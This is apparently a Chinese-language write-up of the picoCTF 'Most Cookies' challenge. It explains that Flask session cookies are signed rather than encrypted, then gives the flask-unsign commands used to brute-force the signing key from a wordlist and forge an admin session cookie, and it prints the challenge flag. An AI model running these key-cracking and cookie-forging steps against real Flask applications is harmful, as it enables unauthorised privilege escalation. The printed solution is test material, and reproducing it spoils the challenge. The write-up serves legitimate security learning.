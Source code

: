 ```yaml
---
icon: pen-to-square
date: 2024-12-20
tags: 
title: Most Cookies
category:
  - 领域
---
```

# Most cookies
Author: madStacks
#### Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py) [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/)

#### Hints 
How secure is a flask cookie?

----
# 00. 前言
## 0x1. Flask
flask是Python编写的轻量级web应用框架
### Flask会话管理机制
flask框架下的cookie是这样的结构
```
eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z2Uskg.uziKYJ0zcZE4j4toa_S8dqE_auA
```
但是不重要，base64解码后可以看到我们的信息
```
{"very_auth":"blank"}ge,3&	S7x6qZj`
```
### 通过查资料发现
Flask框架加密cookie用的是签名机制而非加密机制
**这意味着，我们可以查看cookie的序列化内容，只是不能随意更改**
*因为在服务端的Flask框架中进行签名*
通过研究，Flask在服务端设置签名密钥是设置一个secret_key，用于加密和解密cookie的会话数据
示例：
```
from flask import Flask

app = Flask(__name__)
app.secret_key = 'your_secret_key'  # 设置密钥
```
*现在我们有思路了，我们只需要从python源代码获取secret，然后自己构造cookie就可以进行越权操作*
## 0x2. Flask-unsign
[Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign)是一个专门用于爆破Flask框架加密cookie的工具，我们可以通过这个来爆出密码（一般需要提供字典），构造cookie。

# 02. 解题过程
## 2x1. 代码审计
首先对server.py文件进行代码审计，主要是secret_key的定义部分
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220173823.png)
发现了逻辑是从这些明文里进行随机选择作为密钥（实际上经过测试发现，其实并不随机后面再说）
## 2x2. cookie构造
随后安装flask-unsign工具，
创建一个cookie.txt来存放密钥，内容为python代码中的cookie_name
```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```

### x2p1. 构造命令：
```
 flask-unsign -u --server http://mercury.picoctf.net:65344/ --wordlist cookie.txt
```
- -u：用爆破签名秘钥
- --server：指定提供cookie的服务器，也就是flask服务器
- --wordlist：指定字典
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220174905.png)
发现密钥为fortun(无论重复多少次，密钥都为fortun,不知道是不是我的原因)

### x2p2. 构造cookie
```
flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret 'fortune'
```
- --sign:构造cookie的指令，使用时需要指定secret
- --cookie：构造的有效载荷upload明文
- --secret：签名密钥
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220175603.png)
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z2U-0A.6uixHBNxbx7P6ZHeo-_dGFZjhd0
```

随后在网站的cookie进行更改，刷新后可得到flag
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220175742.png)
*在这步尝试过使用其他密钥，但是都不能得到flag，真的很奇怪*

```
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
```


